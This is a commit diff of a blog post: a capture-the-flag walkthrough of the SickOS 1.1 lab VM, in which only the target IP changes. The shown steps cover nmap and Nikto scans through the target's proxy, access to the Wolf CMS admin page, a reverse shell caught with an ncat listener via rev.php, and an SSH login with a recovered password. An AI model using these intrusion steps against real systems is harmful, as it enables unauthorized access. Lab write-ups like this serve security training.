

Before and after one commit to rkmsh/rkmsh.github.io, a Jekyll site: the page built from _posts/2019-02-23-SickOS-1.1.md, in a window 1280 px wide and 1400 px high, scrolled down 2445 px. Shown: the whole window at 92% size, without its empty margins (0-999 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

````diff
--- a/_posts/2019-02-23-SickOS-1.1.md
+++ b/_posts/2019-02-23-SickOS-1.1.md
@@ -51,9 +51,9 @@
  Now run the `nmap` scan to know the open ports and services.
 
  ```console
-root@kali:~# nmap -sS -A -n -T5 192.168.43.3
+root@kali:~# nmap -sS -A -n -T5 192.168.1.8
 Starting Nmap 7.70 ( https://nmap.org ) at 2019-02-23 10:42 IST
-Nmap scan report for 192.168.43.3
+Nmap scan report for 192.168.1.8
 Host is up (0.00067s latency).
 Not shown: 997 filtered ports
 PORT     STATE  SERVICE    VERSION
@@ -78,7 +78,7 @@
 
 TRACEROUTE
 HOP RTT     ADDRESS
-1   0.67 ms 192.168.43.3
+1   0.67 ms 192.168.1.8
 
 OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
 Nmap done: 1 IP address (1 host up) scanned in 19.98 seconds
@@ -88,13 +88,13 @@
 
 Let's use `Nikto'.
 ```console
-root@kali:~# nikto -h 192.168.43.3 -useproxy http://192.168.43.3:3128
+root@kali:~# nikto -h 192.168.1.8 -useproxy http://192.168.1.8:3128
 - Nikto v2.1.6
 ---------------------------------------------------------------------------
-+ Target IP:          192.168.43.3
-+ Target Hostname:    192.168.43.3
++ Target IP:          192.168.1.8
++ Target Hostname:    192.168.1.8
 + Target Port:        80
-+ Proxy:              192.168.43.3:3128
++ Proxy:              192.168.1.8:3128
 + Start Time:         2019-02-23 10:46:55 (GMT5.5)
 ---------------------------------------------------------------------------
 + Server: Apache/2.2.22 (Ubuntu)
@@ -132,15 +132,15 @@
 
 <img src="{{ site.url }}{{ site.baseurl }}/assets/images/sick_os11.png" alt="Proxy Settings">
 
-Now navigate to `http://192.168.43.3`.
+Now navigate to `http://192.168.1.8`.
 
 There is nothing in the page.
 
-Ok let's go to `http://192.168.43.3/robots.txt`.
+Ok let's go to `http://192.168.1.8/robots.txt`.
 
-Then go to `http://192.168.43.3/wolfcms`.
+Then go to `http://192.168.1.8/wolfcms`.
 
-After going through some Googling.....We will go to `http://192.168.43.3/wolfcms/?/admin/`.
+After going through some Googling.....We will go to `http://192.168.1.8/wolfcms/?/admin/`.
 
 <img src="{{ site.url }}{{ site.baseurl }}/assets/images/sick_os12.png" alt="Login Page">
 
@@ -167,15 +167,15 @@
 Ncat: Listening on 0.0.0.0:1234
 ```
 
-Now navigate to `http://192.168.43.3/wolfcms/public/rev.php`. And we will get a shell.
+Now navigate to `http://192.168.1.8/wolfcms/public/rev.php`. And we will get a shell.
 
 ```console
 root@kali:~# ncat -nlvp 1234
 Ncat: Version 7.70 ( https://nmap.org/ncat )
 Ncat: Listening on :::1234
 Ncat: Listening on 0.0.0.0:1234
-Ncat: Connection from 192.168.43.3.
-Ncat: Connection from 192.168.43.3:44895.
+Ncat: Connection from 192.168.1.8.
+Ncat: Connection from 192.168.1.8:44895.
 Linux SickOs 3.11.0-15-generic #25~precise1-Ubuntu SMP Thu Jan 30 17:42:40 UTC 2014 i686 athlon i386 GNU/Linux
  11:13:31 up  2:05,  0 users,  load average: 0.00, 0.01, 0.05
 USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
@@ -278,8 +278,8 @@
 I tried the password for mysql but nothing came out. After a long hit finally I came with a solution with this password `john@123`.
 
 ```console
-root@kali:~# ssh sickos@192.168.43.3
-sickos@192.168.43.3's password:
+root@kali:~# ssh sickos@192.168.1.8
+sickos@192.168.1.8's password:
 Welcome to Ubuntu 12.04.4 LTS (GNU/Linux 3.11.0-15-generic i686)
 
  * Documentation:  https://help.ubuntu.com/
@@ -288,7 +288,7 @@
 
   System load:  0.0               Processes:           111
   Usage of /:   4.3% of 28.42GB   Users logged in:     0
-  Memory usage: 36%               IP address for eth0: 192.168.43.3
+  Memory usage: 36%               IP address for eth0: 192.168.1.8
   Swap usage:   0%
 
   Graph this data and manage this system at:
````
Also changed, not shown: _pages/categories.md (+1 -0 lines).
